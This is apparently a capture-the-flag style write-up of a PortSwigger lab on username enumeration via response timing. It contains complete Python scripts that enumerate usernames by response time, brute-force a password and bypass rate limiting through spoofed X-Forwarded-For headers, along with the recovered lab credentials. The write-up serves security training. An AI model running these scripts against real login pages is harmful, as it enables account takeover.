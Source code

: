 # Username enumeration via response timing | Dec 21, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing), you'll learn: Username enumeration via response timing! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

- Your credentials: `wiener:peter`
- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221074715.png)

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221074727.png)

Let's try to login!

**First, what will happened if the username is incorrect?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221074959.png)

**It'll display `Invalid username or password.`, and the response time is 908.72 ms.**

**Then, what will happened if the username is correct?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221075137.png)

Hmm... Pretty much the same.

**How about correct username, but incorrect password with a big blob of strings?**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# openssl rand -hex 200
9b2907492b98ff79176efb184301e2b684fb589acff46462e834a5cf6b0a641d9936923a1fbead46cc07889f059a041ce7a2d86c5b25a3cdfda38560bf3a4bd51dac43db2f793fa2238eb29258a3b764349d2a54e1913ff0a3df981eb25b967cae8710fd6689e9d73ff0b86e784f0c81baf92d10e7dcfd6dfca4e082edf5290b04afb8217d2714c0848aedfdada5795893c60d7289bafeb7268703b164c3cb24bd053339442daed24aa4e66e735487c0834fcfd4060b8ecb3d3b8e873de1fd34b9853dff88879804
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221075427.png)

**Hmm... The response time is 2.6 s!**

**How about incorrect username, and incorrect password with a big blob of strings?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221075531.png)

652.45 ms!

**However, when I was trying to figure out the response time, there is a brute force protection:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221080323.png)

Let's try to bypass that via `X-Forwarded-For` HTTP header:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221080627.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221080653.png)

It worked!

Armed with above information, we can **enumerate username via different response time**!

For example, if **the response time is greater than 3 seconds**, then we will know that **that username is valid**!

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep, time
from string import ascii_lowercase
import random

def fetchUsername(filename):
    listUsername = list()

    with open(filename) as fd:
        for line in fd:
            listUsername.append(line.strip())

    return listUsername

def sendRequest(url, cookie, username, header):
    randomPassword = ''.join(random.choices(ascii_lowercase, k=699))

    loginData = {
        'username': username,
        'password': randomPassword
    }

    startTime = time()
    requests.post(url, cookies=cookie, data=loginData, headers=header)
    endTime = time()
    
    if endTime - startTime >= 3:
        print(f'[+] Found user: {username}')

def main():
    url = 'https://0aff005204396e73c1c2921c00b20071.web-security-academy.net/login'
    cookie = {'session': 'sEn3fhHi3yIfxo6GPvKhovvemLKNGYJT'}

    userFileName = './auth_username.txt'
    listUsername = fetchUsername(userFileName)
    
    count = 0

    for username in listUsername:
        count += 1
        header = {'X-Forwarded-For': '1.1.1.' + str(count)}

        thread = Thread(target=sendRequest, args=(url, cookie, username, header))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_username_time.py
[+] Found user: affiliate
```

- Found user `affiliate`.

**Next, we need to brute force that user's password:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password, header):
    loginData = {
        'username': 'affiliate',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData, headers=header).text

    if 'Invalid username or password.' not in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0aff005204396e73c1c2921c00b20071.web-security-academy.net/login'
    cookie = {'session': 'sEn3fhHi3yIfxo6GPvKhovvemLKNGYJT'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    count = 0

    for password in listPassword:
        count += 1
        header = {'X-Forwarded-For': '1.1.2.' + str(count)}

        thread = Thread(target=sendRequest, args=(url, cookie, password, header))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_time.py
[+] Found password: qwertyuiop
```

- Found user `affiliate` password: `qwertyuiop`

**Let's login as user `affiliate`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221082504.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221082530.png)

We're user `affiliate`!

# What we've learned:

1. Username enumeration via response timing